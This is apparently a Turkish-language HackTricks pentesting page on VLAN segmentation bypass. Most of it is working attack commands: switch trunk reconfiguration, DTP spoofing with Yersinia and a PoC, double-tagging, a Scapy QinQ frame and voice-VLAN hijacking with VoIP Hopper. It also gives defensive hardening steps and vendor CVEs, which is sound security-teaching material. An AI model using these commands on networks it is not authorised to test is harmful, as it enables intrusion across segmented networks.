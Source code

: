 # Lateral VLAN Segmentation Bypass

{{#include ../../banners/hacktricks-training.md}}

Eğer bir anahtara doğrudan erişim mevcutsa, VLAN segmentasyonu atlatılabilir. Bu, bağlı portun trunk moduna yeniden yapılandırılmasını, hedef VLAN'lar için sanal arayüzlerin oluşturulmasını ve senaryoya bağlı olarak IP adreslerinin dinamik (DHCP) veya statik olarak ayarlanmasını içerir (**daha fazla bilgi için [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Öncelikle, belirli bağlı portun tanımlanması gereklidir. Bu genellikle CDP mesajları aracılığıyla veya **include** maskesi ile portu arayarak gerçekleştirilebilir.

**Eğer CDP çalışmıyorsa, port tanımlaması MAC adresini arayarak yapılmaya çalışılabilir**:
```
SW1(config)# show mac address-table | include 0050.0000.0500
```
Trunk moduna geçmeden önce, mevcut VLAN'ların bir listesi derlenmeli ve tanımlayıcıları belirlenmelidir. Bu tanımlayıcılar daha sonra arayüze atanır ve trunk üzerinden çeşitli VLAN'lara erişim sağlanır. Kullanılan port, örneğin, VLAN 10 ile ilişkilidir.
```
SW1# show vlan brief
```
**Trunk moduna geçiş yapmak, arayüz yapılandırma moduna girmeyi gerektirir**:
```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
Trunk moduna geçmek, bağlantıyı geçici olarak kesintiye uğratacaktır, ancak bu daha sonra geri getirilebilir.

Sanal arayüzler oluşturulur, VLAN kimlikleri atanır ve etkinleştirilir:
```bash
# Legacy (vconfig) – still works but deprecated in modern kernels
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up

# Modern (ip-link – preferred)
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.10 type vlan id 10
sudo ip link add link eth0 name eth0.20 type vlan id 20
sudo ip link set eth0.10 up
sudo ip link set eth0.20 up
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
Sonrasında, DHCP aracılığıyla bir adres talebi yapılır. Alternatif olarak, DHCP'nin mümkün olmadığı durumlarda, adresler manuel olarak yapılandırılabilir:
```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
```
Bir arayüzde (VLAN 10) statik bir IP adresi manuel olarak ayarlamak için örnek:
```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
# or
sudo ip addr add 10.10.10.66/24 dev eth0.10
```
Bağlantı, VLAN'lar 10, 20, 50 ve 60 için varsayılan ağ geçitlerine ICMP istekleri başlatarak test edilir.

Sonuç olarak, bu süreç VLAN segmentasyonunun aşılmasını sağlar ve böylece herhangi bir VLAN ağına sınırsız erişim imkanı tanır ve sonraki eylemler için zemin hazırlar.

---

## Diğer VLAN-Hopping Teknikleri (yetkili anahtar CLI olmadan)

Önceki yöntem, anahtara kimlik doğrulamalı konsol veya Telnet/SSH erişimi olduğunu varsayar. Gerçek dünya etkileşimlerinde, saldırgan genellikle **normal erişim portuna** bağlıdır. Aşağıdaki Layer-2 hileleri, anahtar işletim sistemine hiç giriş yapmadan yanlamasına geçiş yapmanıza genellikle izin verir:

### 1. Dinamik Trunking Protokolü (DTP) ile Anahtar-Spoofing

DTP'yi etkin tutan Cisco anahtarları, eşin bir anahtar olduğunu iddia etmesi durumunda bir trunk müzakeresi yapmaktan memnuniyet duyar. Tek bir **DTP “istenen”** veya **“trunk”** çerçevesi oluşturmak, erişim portunu *tüm* izin verilen VLAN'ları taşıyan bir 802.1Q trunk'a dönüştürür.

*Yersinia* ve birkaç PoC süreci otomatikleştirir:
```bash
# Become a trunk using Yersinia (GUI)
sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
git clone https://github.com/fleetcaptain/dtp-spoof.git
sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```
Recon yardımcı (pasif olarak portun DTP durumunu parmak iziyle belirleme):
```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up

# or

wget https://gist.githubusercontent.com/mgeeky/3f678d385984ba0377299a844fb793fa/raw/dtpscan.py
sudo python3 dtpscan.py -i eth0
```
Bir kez port trunk moduna geçtiğinde, 802.1Q alt arayüzleri oluşturabilir ve önceki bölümde gösterildiği gibi tam olarak geçiş yapabilirsiniz.

### 2. Double-Tagging (Native-VLAN Suistimali)

Eğer saldırgan **native (etiketsiz) VLAN** üzerinde oturuyorsa, *iki* 802.1Q başlığına sahip bir çerçeve, port erişim modunda kilitli olsa bile ikinci bir VLAN'a geçebilir. **VLANPWN DoubleTagging.py** (2022-2025 güncellemesi) gibi araçlar enjeksiyonu otomatikleştirir:
```bash
python3 DoubleTagging.py \
--interface eth0 \
--nativevlan 1 \
--targetvlan 20 \
--victim 10.10.20.24 \
--attacker 10.10.1.54
```
### 3. QinQ (802.1ad) Stacking

Birçok kurumsal çekirdek, *Q-in-Q* hizmet sağlayıcı kapsüllemeyi destekler. İzin verildiğinde, bir saldırgan, güvenlik bölgelerini aşmak için bir sağlayıcı (S-tag) içinde rastgele 802.1Q etiketli trafiği tünelleme yapabilir. Ethertype `0x88a8` için yakalama yapın ve dış etiketi Scapy ile çıkarmayı deneyin:
```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```
### 4. LLDP/CDP Üzerinden Voice-VLAN Ele Geçirme (IP-Phone Spoofing)

Kurumsal erişim portları genellikle *“erişim + ses”* yapılandırmasında bulunur: iş istasyonu için etiketlenmemiş veri VLAN'ı ve CDP veya LLDP-MED aracılığıyla duyurulan etiketli ses VLAN'ı. Bir IP telefonunu taklit ederek, saldırgan otomatik olarak VoIP VLAN'ını keşfedebilir ve bu VLAN'a geçiş yapabilir—DTP devre dışı olsa bile.

*VoIP Hopper* (Kali 2025.2 içinde paketlenmiştir) CDP, DHCP seçenekleri **176/242** ve tam LLDP-MED spoofing desteği sunar:
```bash
# One-shot discovery & hop
sudo voiphopper -i eth0 -f cisco-7940

# Interactive Assessment Mode (passive sniff → auto-hop when VVID learnt)
sudo voiphopper -i eth0 -z

# Result: new sub-interface eth0.<VVID> with a DHCP or static address inside the voice VLAN
```
Teknik, veri/ses ayrımını atlar ve 2025'te birçok modelde LLDP otomatik politikası varsayılan olarak etkin olduğu için kurumsal kenar anahtarlarında son derece yaygındır.

---

## Savunma Önerileri

1. Tüm kullanıcıya açık portlarda DTP'yi devre dışı bırakın: `switchport mode access` + `switchport nonegotiate`.
2. Her trunk'taki yerel VLAN'ı **kullanılmayan, kara delik VLAN'ı** olarak değiştirin ve etiketleyin: `vlan dot1q tag native`.
3. Trunk'larda gereksiz VLAN'ları budayın: `switchport trunk allowed vlan 10,20`.
4. Kaçak Layer-2 etkinliğini sınırlamak için port güvenliğini, DHCP snooping'i, dinamik ARP denetimini **ve 802.1X**'i zorunlu kılın.
5. IP telefon sahteciliği gerekmiyorsa LLDP-MED otomatik ses politikalarını devre dışı bırakın (veya bunları kimlik doğrulaması yapılmış MAC OUI'lerine kilitleyin).
6. Sadece 802.1Q ayrımına güvenmek yerine özel VLAN'ları veya L3 segmentasyonunu tercih edin.

---

## Gerçek Dünya Satıcı Zafiyetleri (2022-2024)

Mükemmel bir şekilde sertleştirilmiş bir anahtar yapılandırması bile firmware hataları tarafından zayıflatılabilir. Son örnekler şunlardır:

* **CVE-2022-20728† – Cisco Aironet/Catalyst Erişim Noktaları**, yerel VLAN'dan yerel olmayan WLAN VLAN'larına enjeksiyona izin vererek kablolu/kablosuz segmentasyonu atlar.
* **CVE-2024-20465 (Cisco IOS Endüstriyel Ethernet)**, Dayanıklı Ethernet Protokolü'nü değiştirdikten sonra SVI'lerde ACL atlamasına izin verir, VRF'ler/VLAN'lar arasında trafik sızdırır. Yamanın 17.9.5 veya daha yenisi.

Her zaman VLAN ile ilgili atlama/ACL sorunları için satıcı tavsiyelerini izleyin ve altyapı görüntülerini güncel tutun.

---

## Referanslar

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- VLANPWN saldırı aracı seti – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "VLAN Hopping Nedir?" (Ağu 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>
- VoIP Hopper projesi – <https://github.com/hmgh0st/voiphopper>
- Cisco Tavsiyesi “cisco-sa-apvlan-TDTtb4FY” – <https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apvlan-TDTtb4FY>

{{#include ../../banners/hacktricks-training.md}}
